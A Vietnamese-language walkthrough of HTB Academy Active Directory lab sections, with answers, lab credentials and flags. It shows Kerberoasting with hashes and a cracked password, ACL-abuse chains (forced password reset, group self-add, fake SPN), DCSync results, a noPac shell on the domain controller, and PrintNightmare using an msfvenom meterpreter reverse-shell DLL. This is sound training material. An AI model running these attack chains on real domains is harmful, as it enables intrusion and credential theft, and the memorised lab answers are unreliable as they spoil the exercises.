PS C:\Tools> Get-DomainUser * -spn | select samaccountname,DistinguishedName,ServicePrincipalName

samaccountname    distinguishedname                                                                         serviceprincipalname
--------------    -----------------                                                                         --------------------
adfs              CN=adfs,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                             adfsconnect/azure01.inlanefreig...
backupagent       CN=BACKUPAGENT,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                      backupjob/veam001.inlanefreight...
certsvc           CN=certsvc,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                             http://ACADEMY-EA-CA01.INLANEFR...
krbtgt            CN=krbtgt,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                              kadmin/changepw
damundsen         CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL {MSSQLSvc/ACADEMY-EA-DB01.INLAN...
sqldev            CN=sqldev,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                           MSSQLSvc/DEV-PRE-SQL.inlanefrei...
sqlprod           CN=sqlprod,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                          MSSQLSvc/SPSJDB.inlanefreight.l...
sqlqa             CN=sqlqa,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                            MSSQLSvc/SQL-CL01-01inlanefreig...
SAPService        CN=SAPService,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                          SAPService/srv01.inlanefreight....
solarwindsmonitor CN=SOLARWINDSMONITOR,OU=Service Accounts,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL                sts/inlanefreight.local
testspn           CN=testspn,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                             testspn/kerberoast.inlanefreigh...
testspn2          CN=testspn2,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                            testspn2/kerberoast.inlanefreig...
svc_vmwaresso     CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL                                       vmware/inlanefreight.local
```

+ 0  Crack the password for this account and submit it as your answer.

Chúng ta đã xác định được đối tượng cần khai thác đó là `svc_vmwaresso`

Giờ tiến hành trích xuất vé của người dùng này:

```powershell
PS C:\Tools> Get-DomainUser svc_vmwaresso -SPN | Get-DomainSPNTicket -Format Hashcat


SamAccountName       : svc_vmwaresso
DistinguishedName    : CN=svc_vmwaresso,CN=Users,DC=INLANEFREIGHT,DC=LOCAL
ServicePrincipalName : vmware/inlanefreight.local
TicketByteHexStream  :
Hash                 : $krb5tgs$23$*svc_vmwaresso$INLANEFREIGHT.LOCAL$vmware/inlanefreight.local*$0DDC026F40578430E791C61375F862C7$0286C9FE3A2521E8C47B27F5BD3146FF3FCC4DFD6E4183221E33DB83339FA1CA6AA29CD044D4618E20DE29F382AA0F811C3E3FE0952917E40D031F7724C644AEDC82A4FF4ABA5CABA6102C99D96D632F1253EEEE49767D0CE4B9E84A52B78DC66F529C060471322C7BC7DA3EF6CBF092C3E26EE793CD07D04968BCB54BE873B0F6B67F8597965F334334F963159DFFF5C5FFDBEE1BF336566FA429229FE0914E0EAC0D077E60E7F7EB556428D6244F31126E75929CF0DF970EDFED145957DBAD2BB68AE55848F38082EF05EAB9BAFA73F9C9CC7572F1C3C4B2F7989639804774BAE17915F7ABEA844C9AB1FFE5AAC70A68CEE1CD31016CD1A00F088938CC8B38524A35A9AFBA7E396D0BB7D7CBB3DC6B0F86C93C342224D1D6B1FE9ABC796A815A53EAA915BF8296F4BF0B6293C4DCA9836477FDE8DA8C61E23B1B7446B19925C14907F513EF4743A28ADD1393D2DFAAE1392390817C829938C844B07F0305F30F17D04BC388CD8B1F03C84EDA90CAAF27F6D661E98C26849FC01202322141C6642279D3CFFE2744FB8DF7BAECB75E0B5CF2E063644F55FCF2C9A3A016B2C29D169F3C52F7FC6EFE03058F6118EBCD22455E226C4DB399D3CA26F582EF3E655447ED0F8C7B14A3AB5B001AA34C1485ED91C705F3C5F9546D3E570B22CE6AD961ED0FF66FD859E80FD0D87183971B23830F4EDB3D8DD6EF912ED94C7C068C7B0C9590AF37F2912828F138D6ED083801B7FE85BFFD52FDA343E597656F06D078AB6E1386C6EFF62C56DA194980DED60A7C7CA1852C7800753C3729CAF4F56FF5C0B83C949E019873F7B77F86026E5E1D7AD9168C6EDB3717CB256A49E1D45B65C4E53CDD13F80639EF39AB899462405317D30EC4887D3F032B390EAB4C2CD77146328CAD860A6AA2F29337090AE30DB640BE1BFE91C2CE87F67A35FE19B6C6716BA84729D91B8934113FF6BB5F04BF524A0920771698CB595666CD385D959DC0426E4464346C9B8BE86F5A8610AA39ECDEFBBAB23B4ADEA331382CAEE9259D763637512938446F26CD480183C38DB5A75B75117837C184BEDCFE69D92276BBAADE4837B97FF68C317541D42B330383E9ADB023E1874201B04DCA41A8BAEB47C81D18AF935A8D895C126770BF3D1023A3104E978D1C1A3EC95C6AC3DE09253F0B34F0A1C2E20E18247FEE642C20CA26B961904953A0E8D0029EA1C8A86BC4D978F341D7A79EF95DAE9EAF26DD46131E03D1D2B7D1C634B74FB93C667905F3AD70FEF8646870766AC769516FADA0CFBFD147476FE8C8C74A8AE983837DAEF72DC83215D62ACE0AF376EFE35CFFBCF1576B46596DC83420834E9E316E5A65CBAE2B9A6D2C33A4B37B512184040EC6A532D74BF747372F95CEE7687021DF39A19EEF30EB501E4C7B1DF2D51BD53CA418736B131259AB69FCD55B57EC79594CAF6D7FBA6B348CE301FDDD2D5B1653C090082CDABC5F8F7484D3F20F5C33A9415358CF416E1BE43CDAF7960C07B51885B2585BD0970DE3A4E5A30BBB73F3860D9657ACE1C9C5C8661F7A247B77F12D668741DBE13480B5160DFFF43A4D6872DC737CE70D7BB54148497DB049D2C5EBF58AA3CE5B50105B98AD92CFF93ADCADBD5D9F1DCC3A3BC8AB31D1918CC0A0B9DA81DFE41B8617AEDF353591205F

```


# Access Control List (ACL) Abuse Primer

#### Questions

+ 0  What type of ACL defines which security principals are granted or denied access to an object? (one word)

DACL

+ 0  Which ACE entry can be leveraged to perform a targeted Kerberoasting attack?

GenericAll


# ACL Enumeration

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.255.194 (ACADEMY-EA-MS01)   

 RDP to 10.129.255.194 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  What is the rights GUID for User-Force-Change-Password?

00299570-246d-11d0-a768-00aa006e0529

+ 0  What flag can we use with PowerView to show us the ObjectAceType in a human-readable format during our enumeration?

ResolveGUIDs

+ 0  What privileges does the user damundsen have over the Help Desk Level 1 group?

ListChildren, ReadProperty, GenericWrite

+ 0  Using the skills learned in this section, enumerate the ActiveDirectoryRights that the user forend has over the user dpayne (Dagmar Payne).

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $sid = Convert-NameToSid forend
PS C:\Tools> Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $sid}


AceType               : AccessAllowed
ObjectDN              : CN=Dagmar Payne,OU=HelpDesk,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-1152
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-5614
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

+ 0  What is the ObjectAceType of the first right that the forend user has over the GPO Management group? (two words in the format Word-Word)

```zsh
PS C:\Tools> Get-DomainObjectACL -ResolveGUIDs -Identity 'GPO Management' | Where-Object { $_.SecurityIdentifier -eq $sid }


AceQualifier           : AccessAllowed
ObjectDN               : CN=GPO Management,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights  : Self
ObjectAceType          : Self-Membership
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114-4046
InheritanceFlags       : ContainerInherit
BinaryLength           : 56
AceType                : AccessAllowedObject
ObjectAceFlags         : ObjectAceTypePresent
IsCallback             : False
PropagationFlags       : None
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-5614
AccessMask             : 8
AuditFlags             : None
IsInherited            : False
AceFlags               : ContainerInherit
InheritedObjectAceType : All
OpaqueLength           : 0

AceType               : AccessAllowed
ObjectDN              : CN=GPO Management,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ReadProperty, WriteProperty, GenericExecute
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4046
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-5614
AccessMask            : 131124
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```


# ACL Abuse Tactics

#### Questions

 RDP to  with user "htb-student" and password "Academy_student_AD!"

+ 0  Work through the examples in this section to gain a better understanding of ACL abuse and performing these skills hands-on. Set a fake SPN for the adunn account, Kerberoast the user, and crack the hash using Hashcat. Submit the account's cleartext password as your answer.

Như ở phần trước, chúng ta lụm được password của người dùng `wley` thông qua việc bắt hàm băm xác thực bằng `responder` sau đó crack... Với thông tin xác thực `wley:transporter@4` chúng ta sẽ tiến hành một tình huống ACLs Abusing.

Như thường lệ, với thông tin xác thực của `wley`, chúng ta xem hắn ta có thể có những đặc quyền nào.

Sử dụng **PowerView**

```zsh
PS C:\htb> Import-Module .\PowerView.ps1
PS C:\Tools> $sid=Convert-NameToSid wley
PS C:\Tools> Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid}


ObjectDN               : CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114-1176
ActiveDirectoryRights  : ExtendedRight
ObjectAceFlags         : ObjectAceTypePresent
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529
InheritedObjectAceType : 00000000-0000-0000-0000-000000000000
BinaryLength           : 56
AceQualifier           : AccessAllowed
IsCallback             : False
OpaqueLength           : 0
AccessMask             : 256
SecurityIdentifier     : S-1-5-21-3842939050-3880317879-2865463114-1181
AceType                : AccessAllowedObject
AceFlags               : ContainerInherit
IsInherited            : False
InheritanceFlags       : ContainerInherit
PropagationFlags       : None
AuditFlags             : None
```


Chúng ta chú ý đến các thông tin này:

```powershell
ObjectSID              : S-1-5-21-3842939050-3880317879-2865463114-1176
ActiveDirectoryRights  : ExtendedRight
ObjectAceType          : 00299570-246d-11d0-a768-00aa006e0529
```

Nếu search google thì nghĩa là: chúng ta có quyền thay đổi mật khẩu của `Dana Amundsen` mà không cần biết mật khẩu của hắn ta -[User-Force-Change-Password] [https://learn.microsoft.com/en-us/windows/win32/adschema/r-user-force-change-password]


Giờ chúng ta cần xác định username hay samaccountname của `Dana Amundsen`:

```powershell
PS C:\Tools> Get-DomainUser -Identity "S-1-5-21-3842939050-3880317879-2865463114-1176" | Select-Object samaccountname, distinguishedname

samaccountname distinguishedname
-------------- -----------------
damundsen      CN=Dana Amundsen,OU=DevOps,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

Đây rồi, username của anh ta là `damundsen`, anh ta thuộc các nhóm như DevOps, IT, HQ-NYC, Employees, Corp.

Trước hết chúng ta cứ thay đổi mật khẩu của `damundsen`, sau đó sẽ tìm kiếm thêm đặc quyền từ thông tin xác thực của anh ta:

Tạo biến chứa thông tin xác thực nhanh cho wley:

```powershell
$WleyPassword = ConvertTo-SecureString ‘transporter@4’ -AsPlainText -Force

$WleyCred = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\wley', $WleyPassword)
```

Import PowerView

```powershell
Import-Module .\PowerView.ps1
```

Đặt password mới cho damundsen:

```powershell
$damundsenPassword = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force

Set-DomainUserPassword -Identity damundsen -AccountPassword $damundsenPassword -Credential $WleyCred -Verbose
```


Một thông tin xác thực mới vừa được khám phá: `damundsen:Welcome1!`

Sau đó chúng ta tiếp tục recon xem người dùng damundsen có các đặc quyền nào.

```powershell
$sid2=Convert-NameToSid damundsen
Get-DomainObjectACL -Identity * | ? {$_.SecurityIdentifier -eq $sid2}

AceType               : AccessAllowed
ObjectDN              : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : ListChildren, ReadProperty, GenericWrite
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-4022
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-1176
AccessMask            : 131132
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Xác định rõ ràng rằng damundsen có quyền [GenericWrite][https://learn.microsoft.com/en-us/dotnet/api/system.directoryservices.activedirectoryrights?view=windowsdesktop-9.0#fields] đối với `Help Desk Level 1`, vậy anh ta có thể làm gì? 
1. **Thêm/Xóa thành viên trong nhóm**

2. **Sửa đổi thuộc tính nhóm**

- Thay đổi **scope** (Domain Local → Global) để mở rộng phạm vi ảnh hưởng.
    
- Sửa **SID**, mô tả, hoặc thông tin liên hệ để che giấu hành vi tấn công.

3. **Tấn công nhóm lồng nhau (Nesting)**

Trước hết, tôi sẽ thêm người dùng `damundsen` với vai trò là gián điệp vào trong nhóm `Help Desk Level 1` với đặc quyền GenericWrite thông qua `Add-DomainGroupMember`

```powershell
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $SecPassword = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
PS C:\Tools> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
PS C:\Tools> Add-DomainGroupMember -Identity 'Help Desk Level 1' -Members 'damundsen' -Credential $Cred2 -Verbose
```

Sau đó kiểm tra lại liệu `damundsen` đã là thành viên của `Help Desk Lv 1` chưa:

```powershell

PS C:\Tools> Get-DomainGroupMember -Identity "Help Desk Level 1" | Select MemberName

MemberName
----------
busucher
spergazed
whounces1950
tatem1940
whighwand1962
freg1943
sulliss
theken1998
vered1980
plase1985
trisheye
susecum
lifee1989
whyall
hinct1998
lacce1947
reaked
cousitony
anniguiturve
pristor
withem
sureat
nower1959
hilowentoce
hispossiond
damundsen
dpayne
```

Như vậy đã coi như là thành công.

Giờ tôi muốn xem liệu "Help Desk Level 1" có gì đặc biệt?

```powershell
PS C:\Tools> Get-DomainGroup -Identity "Help Desk Level 1"


usncreated            : 36950
grouptype             : GLOBAL_SCOPE, SECURITY
samaccounttype        : GROUP_OBJECT
samaccountname        : Help Desk Level 1
whenchanged           : 5/31/2025 10:37:17 AM
objectsid             : S-1-5-21-3842939050-3880317879-2865463114-4022
objectclass           : {top, group}
cn                    : Help Desk Level 1
usnchanged            : 3322008
dscorepropagationdata : {3/24/2022 3:52:58 PM, 3/24/2022 3:49:31 PM, 3/22/2022 3:03:17 AM, 3/22/2022 3:03:14 AM...}
memberof              : CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
distinguishedname     : CN=Help Desk Level 1,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
name                  : Help Desk Level 1
member                : {CN=Stella
                        Blagg,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL, CN=Marie
                        Wright,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL,
                        CN=Jerrell
                        Metzler,OU=Operations,OU=Logistics-LAX,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL,
                        CN=Evelyn
                        Mailloux,OU=Operations,OU=Logistics-HK,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL...}
whencreated           : 10/28/2021 1:09:07 AM
instancetype          : 4
objectguid            : e539dfde-c633-4a10-bb81-d7ee2d3deb8f
objectcategory        : CN=Group,CN=Schema,CN=Configuration,DC=INLANEFREIGHT,DC=LOCAL

```

Tôi nhận ra rằng mình hoàn toàn có thể lợi dụng nhóm lồng nhau (nested group) để biến nó thành vector leo thang của mình:
```powershell
memberof              : CN=Information Technology,OU=Security Groups,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
```

Hãy xem nhóm này có gì?

```powershell
$itgroupsid = Convert-NameToSid "Information Technology"
Get-DomainObjectACL -ResolveGUIDs -Identity * | ? {$_.SecurityIdentifier -eq $itgroupsid} -Verbose

AceType               : AccessAllowed
ObjectDN              : CN=Angela Dunn,OU=Server Admin,OU=IT,OU=HQ-NYC,OU=Employees,OU=Corp,DC=INLANEFREIGHT,DC=LOCAL
ActiveDirectoryRights : GenericAll
OpaqueLength          : 0
ObjectSID             : S-1-5-21-3842939050-3880317879-2865463114-1164
InheritanceFlags      : ContainerInherit
BinaryLength          : 36
IsInherited           : False
IsCallback            : False
PropagationFlags      : None
SecurityIdentifier    : S-1-5-21-3842939050-3880317879-2865463114-4016
AccessMask            : 983551
AuditFlags            : None
AceFlags              : ContainerInherit
AceQualifier          : AccessAllowed
```

Như vậy "Information Technology"  có quyền GenericAll đối với người dùng `Angela Dunn`  và anh ta thuộc Server Admin, chứng tỏ người dùng này rất tiềm năng trong việc leo thang. Người dùng damundsen nằm trong nhóm Help Desk Lv 1, nhóm này lồng với nhóm IT, do đó, damundsen hoàn toàn có quyền GenericAll đối với adunn.

Hãy điều tra thêm về người dùng này:


Dễ dàng biết được username của anh ta là `adunn`.

Đối với GenericAll, chúng ta có thể làm những điều sau với `adunn`:
- Reset mật khẩu
- Sửa thuộc tính (kể cả servicePrincipalName)
- Chiếm quyền sở hữu

Trong hướng dẫn có đề cập rằng: Vector Kerberoasting trong kịch bản này
Tại sao dùng Kerberoasting thay vì reset mật khẩu?
◇ Reset mật khẩu adunn sẽ gây gián đoạn dịch vụ (vì adunn đang hoạt động)
◇ Kerberoasting cho phép lấy hash mật khẩu mà không thay đổi trạng thái tài khoản → tấn công "im lặng"

Mở cửa sổ powershell mới để cập nhật quyền mà chúng ta đã thêm vào nhóm:
Trước hết, tạo thông tin xác thực cho damundsen:
```powershell
#### Creating a SecureString Object using damundsen
PS C:\Tools> Import-Module .\PowerView.ps1
PS C:\Tools> $SecPassword = ConvertTo-SecureString 'Welcome1!' -AsPlainText -Force
PS C:\Tools> $Cred2 = New-Object System.Management.Automation.PSCredential('INLANEFREIGHT\damundsen', $SecPassword)
```

#### Creating a Fake SPN

```powershell
PS C:\Tools> Set-DomainObject -Credential $Cred2 -Identity adunn -SET @{serviceprincipalname='notahacker/LEGIT'} -Verbose
VERBOSE: [Get-Domain] Using alternate credentials for Get-Domain
VERBOSE: [Get-Domain] Extracted domain 'INLANEFREIGHT' from -Credential
VERBOSE: [Get-DomainSearcher] search base: LDAP://ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL/DC=INLANEFREIGHT,DC=LOCAL
VERBOSE: [Get-DomainSearcher] Using alternate credentials for LDAP connection
VERBOSE: [Get-DomainObject] Get-DomainObject filter string:
(&(|(|(samAccountName=adunn)(name=adunn)(displayname=adunn))))
VERBOSE: [Set-DomainObject] Setting 'serviceprincipalname' to 'notahacker/LEGIT' for object 'adunn'
```

Xong, giờ chạy Rubeus.exe để thu vé về thôi:

```powershell
.\Rubeus.exe kerberoast /user:adunn /nowrap
```


Tiến hành crack với hashcat:

```zhs
hashcat -m 13100 adunn_tgs /usr/share/wordlists/rockyou.txt
```

```zsh
$krb5tgs$23$*adunn$INLANEFREIGHT.LOCAL$notahacker/LEGIT@INLANEFREIGHT.LOCAL*$1cdb08cc4967c1a613a1be36bb81a80d$50285cb55c6e039ec88b1599b15da96e5890a6ca8b4ef5bc05e5d1b365a8520ff258fe901dbcc9ecdf0cfa7f8d2715f79cba177e946a967345a5df4e3cd51e67fccf69f1aa3ab828ee5508c95c96e45dcedaa6d62c952587e131f70e0d9057da112aa9d2c3ff7d557d02eeae2869a6e24bdbfc8ffd2f264ccfa4f3234548328af429c9600b1d9906927d8ff3e66f6976438309c80d3b28406140bc1c1f10e405ca739b4217ec27047a6bc65520f0884b9d41a11ff715d0357c46ae1defe43ae32c10e383ea4e7ac2ae8ab056ebb2efb6ac33cd27be8a6e33bd4ecaf8f74772b566f1b276ae6a38809852caeea8050dca1a190f670457ac1a67248189b8b601031c7916c9bfeab454312a68259d28becf777f5e15d2ab07e47688641eff17ad50a39baa80e5387dc191f73ca2ccb57444d127e2a6c580d1562cbe2b0ba605a08806f6c28fea6b833ed4004f51cfd7b4b1c4a4b8c4226c1291495f86a79efc6acbf9d6402d80ce9d8a1cc654b49700cda8a8e868437bb2708583c9d970e5f5523af0694ab5fdb94dac3d1f9bedaefef47391c7edbdfb67ef5ac990ca0e3c11302c8617225c5a18622302fdee786ab61b35e52e1df45b579d73d505165707fa78bf9e9af8102b01475f377b573570e46343b853d15e03fd4166cfc8a6da26b01f476b3943347f8a0815e167e1005b6252743396b01347aadd0826e1a29d3d23e41f8b7d613b2f2c809caaf2232de14631955b095d5255bd2605448350b7d76a01cbffa377782d3798b3b1658dc13a6813db38a38c0450fb20b256a901635610aae3970f9bb4e29c8240f45ce4b9eccc428928b0455bd94b0714a1890491b890c15f98cb3ee6d78c88434ef3a5d6f1b93c7e18b1e19c08ba843ea68bdcdb970da07d2d3ac792c15631496641d131bff346717fabb1401565f33f8249df99e7afea0a902bd9a6eeb2feecc5d912e593c699406a0f6b8163e2be32f0285797bbc80cd5fe6faec3f176b409f693623b13b99f6114aafabeb38b997a73dd5dfc6d0088d8e980c44fe350763f245c0b2a5988290eaa55bd9ae499693c6567180b71c599a40a0ae6a8fadbee1a9e29b679a2f337790ec6f2e0c621f1ce8b6ccd50d8dabb75bfa28b2f226d56447a42894a2ffa7f8a8437d0b93373fcb6403fcd802e7c6a70f3bc21a4f5e5da84ddb856076938695da1155436cccaa83277e477fadb05554e36846ea194270d2c6e5e859c61c32f9b513bd6e5583dd72cde17e99128abac35a3f99669e7d0fd622155003ca413205efdbf71526aa438d5a995d8ec37c076b44c50253c445f5a56dcbab37195096d15b7819575e0f8a6941669e6339bf97d37fdac3f5fa12007f47fb56983e5fbde5e5ddab6390b88d263ac64a3b8ef32be0344bc2dd04acead2c5d90f8c9319c52371b8767a84fbb247433682d3f5e145d7a8f818747edf97311dd556c673681a8fa0b27796ab1c02f67a08d7127c2cb3111afa0291bbc9969bbb47ba92ff866edb325b0d2a153e2b79ae71566c060b2cd1f5d383c93c3ba5181d9f42e031e099cc22e6963833ed4a15cbd95c3e4fb4b5e4307d22b7d421ac94bb23c165fd4c2ae71429604ca56b91408373baca9caeada633066bfcf912f93c1adcf498267ffc4429f4af522d4d306ece2:SyncMaster757
```


Ok giờ chúng ta sẽ đơn giản hóa hơn với BloodHound:

Search Node `wley`:


Tại OutBound Object Control ta thấy Wley có ForceChangePassword đối với damundsen:


Làm tương tự với damundsen, anh ta có quyền GenericWrite / AddSelf đối với nhóm help desk lv 1.
Đơn giản hơn chắc chắn damundsen có quyền tự thêm anh ta vào nhóm.


Tiếp tục, tại outbound của nhóm help desk, ta thấy help desk là thành viên của nhóm IT, nhóm IT này có quyền GenericAll đối với adunn, do đó, damundsen cũng có quyền tương tự vì anh ta trong nhóm nested với nhóm IT  để thừa hưởng đặc quyền này.


# DCSync

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.132.117 (ACADEMY-EA-MS01) ,10.129.150.184 (ACADEMY-EA-ATTACK01)   

Life Left: 149 Terminate 

 RDP to 10.129.132.117 (ACADEMY-EA-MS01) ,10.129.150.184 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "Academy_student_AD!"

+ 0  Perform a DCSync attack and look for another user with the option "Store password using reversible encryption" set. Submit the username as your answer.

syncron

+ 0  What is this user's cleartext password?

Mycleart3xtP@ss!

+ 0  Perform a DCSync attack and submit the NTLM hash for the khartsfield user as your answer.

4bb3b317845f0954200a6b0acc9b9f9a


# Privileged Access


#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.201.16 (ACADEMY-EA-MS01) ,10.129.138.209 (ACADEMY-EA-ATTACK01)   

Life Left: 174 Terminate 


 RDP to 10.129.201.16 (ACADEMY-EA-MS01) with user "htb-student" and password "Academy_student_AD!"

+ 0  What other user in the domain has CanPSRemote rights to a host?

```powershell
PS C:\Tools> Get-NetLocalGroupMember -ComputerName ACADEMY-EA-MS01 -GroupName "Remote Management Users"


ComputerName : ACADEMY-EA-MS01
GroupName    : Remote Management Users
MemberName   : INLANEFREIGHT\forend
SID          : S-1-5-21-3842939050-3880317879-2865463114-5614
IsGroup      : False
IsDomain     : UNKNOWN
```

Truy vấn trên powershell chỉ cho thấy forend, tiếp tục truy vấn bằng bloodhound:

```cypher
MATCH p1=shortestPath((u1:User)-[r1:MemberOf*1..]->(g1:Group)) MATCH p2=(u1)-[:CanPSRemote*1..]->(c:Computer) RETURN p2
```


+ 0  What host can this user access via WinRM? (just the computer name)

DC01

 Authenticate to ACADEMY-EA-DB01 with user "damundsen" and password "SQL1234!"

+ 0  Leverage SQLAdmin rights to authenticate to the ACADEMY-EA-DB01 host (172.16.5.150). Submit the contents of the flag at C:\Users\damundsen\Desktop\flag.txt.


```zsh
impacket-mssqlclient INLANEFREIGHT/DAMUNDSEN@172.16.5.150 -windows-auth
```

```sql
SQL> SELECT * FROM OPENROWSET(BULK N'C:/Users/damundsen/Desktop/flag.txt', SINGLE_CLOB) AS Contents
```


# Bleeding Edge Vulnerabilities

#### Questions

Answer the question(s) below to complete this Section and earn cubes!

Target(s): 10.129.81.204 (ACADEMY-EA-ATTACK01)   

Life Left: 116 minute(s)  Terminate 


 SSH to 10.129.81.204 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Which two CVEs indicate NoPac.py may work? (Format: ####-#####&####-#####, no spaces)

2021-42278&2021-42287

 Authenticate to 10.129.81.204 (ACADEMY-EA-ATTACK01) with user "htb-student" and password "HTB_@cademy_stdnt!"

+ 0  Apply what was taught in this section to gain a shell on DC01. Submit the contents of flag.txt located in the DailyTasks directory on the Administrator's desktop.

#### noPAC

Kiểm tra liệu target có vulnerable hay không:

```zsh
sudo python3 scanner.py inlanefreight.local/adunn:SyncMaster757 -dc-ip 172.16.5.5 -use-ldap

███    ██  ██████  ██████   █████   ██████ 
████   ██ ██    ██ ██   ██ ██   ██ ██      
██ ██  ██ ██    ██ ██████  ███████ ██      
██  ██ ██ ██    ██ ██      ██   ██ ██      
██   ████  ██████  ██      ██   ██  ██████ 
                                           
                                        
    
[*] Current ms-DS-MachineAccountQuota = 10
[*] Got TGT with PAC from 172.16.5.5. Ticket size 1514
[*] Got TGT from ACADEMY-EA-DC01.INLANEFREIGHT.LOCAL. Ticket size 661
```

`Current ms-DS-MachineAccountQuota = 10` -> có thể dùng noPAC

Lấy shell của DC

```zsh
sudo python3 noPac.py INLANEFREIGHT.LOCAL/adunn:SyncMaster757 -dc-ip 172.16.5.5  -dc-host ACADEMY-EA-DC01 -shell --impersonate administrator -use-ldap
```


Get flag
```powershell
C:\Windows\system32>cd C:\
[-] You can't CD under SMBEXEC. Use full paths.
C:\Windows\system32>dir C:\Users\Administrator\Desktop\
 Volume in drive C has no label.
 Volume Serial Number is B8B3-0D72

 Directory of C:\Users\Administrator\Desktop

04/09/2022  11:07 AM    <DIR>          .
04/09/2022  11:07 AM    <DIR>          ..
03/23/2022  04:19 AM    <DIR>          DailyTasks
               0 File(s)              0 bytes
               3 Dir(s)  18,249,109,504 bytes free

C:\Windows\system32>type C:\Users\Administrator\Desktop\DailyTasks\flag.txt
D0ntSl@ckonN0P@c!
C:\Windows\system32>
```

#### PrintNightmare

Enum:

```zsh
impacket-rpcdump @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'
Protocol: [MS-PAR]: Print System Asynchronous Remote Protocol 
Protocol: [MS-RPRN]: Print System Remote Protocol 
```

Cấu hình `exploit/multi/handler` như sau:

`set payload windows/x64/meterpreter/reverse_tcp`

```zsh
[msf](Jobs:0 Agents:0) exploit(multi/handler) >> show options

Module options (exploit/multi/handler):

   Name  Current Setting  Required  Description
   ----  ---------------  --------  -----------


Payload options (windows/x64/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     172.16.5.225     yes       The listen address (an interface may be specified)
   LPORT     8080             yes       The listen port
```

Tiếp theo tạo payload .dll

```zsh
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
```

Trong thư mục có chứa backupscript.dll, mở smb server để truyền file cho khai thác:
```zsh
sudo impacket-smbserver -smb2support CompData .
```

Tiến hành khai thác:

```zsh
sudo python3 CVE-2021-1675.py inlanefreight.local/forend:Klmcargo2@172.16.5.5 '\\172.16.5.225\CompData\backupscript.dll'
```


# Miscellaneous Misconfigurations
#### Questions

Answer the question(s) below to complete this Section and earn cubes!

